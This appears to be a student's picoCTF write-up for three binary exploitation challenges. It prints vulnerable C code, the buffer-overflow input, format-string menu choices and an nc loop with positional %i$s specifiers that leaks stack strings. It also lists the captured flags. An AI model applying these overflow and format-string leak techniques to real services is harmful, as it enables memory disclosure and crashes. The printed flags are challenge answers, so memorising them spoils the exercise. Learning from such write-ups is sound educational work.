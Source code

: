 # Binary Exploitation
<br>

## Challenge-1 Buffer Overflow 0

### Process
Looking at the code we see that 

    void vuln(char *input){
        char buf2[16];
        strcpy(buf2, input);
        }

thus our buffer can only be 16 characters long at a time.

So I just run the netcat instance ` nc saturn.picoctf.net 51447`
and give the input `aaaaaaaaaaaaaaaaaaaaaaaaaaaa`

and get the overflowed flag
`picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}`
<br>

### Things Learned
what is `#define`?
 It is used to define a preprocessor directive that is used to define macro in C.

what is `signal function`
This function is used to set the custom handler for different signal outputs in the program
In this challenge specifically we use it set the handler for `SIGSEGV` or `segmentation fault`

what is `setresgid(gid, gid, gid)`
This is used to set the effective id as our id. We do this so that we can get effective permissions to work with different files and programs
<br>

### Mistakes I made
I had to learn everything in the code as i didn't what is going on


<br><br>

## Challenge-2 format string 0

### Process
As i am observing the main function of the format-string-0.c file. I come acoss this 
    
    char choice1[BUFSIZE];
    scanf("%s", choice1);
    char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
    if (!on_menu(choice1, menu1, 3)) {
        printf("%s", "There is no such burgeryet!\n");
        fflush(stdout);
    } else {
        int count = printf(choice1);
        if (count > 2 * BUFSIZE) {
            serve_bob();
        } else {
            printf("%s\n%s\n","Patrick is still hungry!","Try to serve him something of larger size!");
    fflush(stdout);

here, we have see a menu containing 3 options, then our condition statement check if our input is in the menu or not. Then if the input is 2*BUFFSIZE(32) it turns to bob function

Now the `Gr%114d_Cheese` option will be have 0 preceeded by 114 empty spaces thus this will lead to else condition

Now coming to bob fucntion we have something similar

    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        printf(choice2);
        fflush(stdout);
    }

NOw if you use the `Cla%sic_Che%s%steak` will lead to segmentation fault. Thus leading to output of flag

Giving me the flag `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}`
<br>

### Things I learned
what is a string vulnerability
How we can use this string vulnerabilities to get the flag
<br>

### Mistakes I made
none for this one
<br><br>

## Challenge-3 flag leak
In this challenge, one thing your will notice is, there is no concept for our buffer handling or segmentation fault

Also in the `vuln2.c` file (which is our soure), whatever we add is given back to us as the output so what if we manage to print out in the memory address where our flag is getting stored like in 

    void readflag(char* buf, size_t len) {
        FILE *f = fopen("flag.txt","r");
        if (f == NULL) {
            printf("%s %s", "Please create 'flag.txt' in this directory with your","own debugging flag.\n");
            exit(0);
        }
    
        fgets(buf,len,f); // size bound read
    }

So in the input I try to add memory holder `%i$s` and as an output i get the string at the ith string compartment
    snorlux@MrinalPC:/mnt/f/Cryptonite_taskphase2_Mrinal/Binary$ %4$s
    echo "%$i\$s" | nc saturn.picoctf.net 59356
    Tell me a story and then I'll tell you one >> Here's a story -
    ����������؉ǀ�u��^H�C�p��s��u��C

Thus we can get hidden strings and can even find the flag at the correct positional string compartment

So to go through all of them i use the command
    for i in {0..99}; do echo "%$i\$s" | nc saturn.picoctf.net 64716; done

And get the flag `picoCTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}`
<br>

### Things i learned
You can access the string at specific positional order in the file using `%i$s`

You can write code in the wsl shell itself and pipe the output to a specifc file
